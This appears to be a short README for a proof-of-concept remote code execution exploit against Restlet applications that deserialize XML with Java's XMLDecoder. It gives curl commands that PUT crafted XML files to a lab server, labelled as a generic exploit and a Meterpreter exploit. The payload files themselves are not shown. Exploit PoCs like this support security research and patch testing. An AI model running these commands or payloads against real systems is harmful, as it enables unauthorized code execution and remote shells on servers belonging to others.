 ## RestletXMLDecoder

RCE Exploit PoC for Restlet application using XMLDecoder as Unmarshaler

Expected use:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact.xml "http://192.168.239.146:8180/contacts"

Generic Exploit:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact-rce.xml "http://192.168.239.146:8180/contacts"

Meterpreter Exploit:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact-met.xml "http://192.168.239.146:8180/contacts"

